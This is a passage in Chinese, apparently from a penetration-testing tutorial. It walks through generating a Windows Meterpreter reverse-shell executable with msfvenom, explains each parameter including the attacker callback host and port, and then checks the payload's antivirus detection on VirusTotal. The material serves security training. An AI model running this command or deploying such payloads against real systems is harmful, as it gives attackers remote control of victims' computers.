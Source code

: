 网络适配器的 IP 地址将在下一步中用于指定回调地址或本地主机地址，生成自定义有效载荷时使用。

1.  接下来，使用以下命令生成反向 Shell 有效载荷：

```
kali@kali:~$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.30.1.50 LPORT=1234 -f exe -o payload1.exe
```

以下是对前一行命令中使用的所有参数的详细解释：

+   `-p` – 允许你指定有效载荷。`msfvenom --list payloads` 命令会列出所有支持的有效载荷。

+   `LHOST` – 允许你指定回调地址，例如将 Kali Linux 的 IP 地址作为攻击者机器的地址。

+   `LPORT` – 指定攻击者机器上的监听端口，在对目标系统执行有效载荷之前需要打开该端口。

+   `-f` – 该语法用于指定输出格式。`msfvenom --list formats` 命令会列出所有支持的输出格式。

+   `-o` – 指定输出文件的名称。默认情况下，有效载荷存储在当前工作目录中，使用 `pwd` 命令可以验证当前目录。

以下截图显示自定义有效载荷成功生成：

![](img/file332.png)

1.  接下来，在 Kali Linux 中打开网页浏览器，访问 [`www.virustotal.com`](https://www.virustotal.com)，并上传新生成的有效载荷以查看其检测状态，如下所示：

![](img/file333.png)
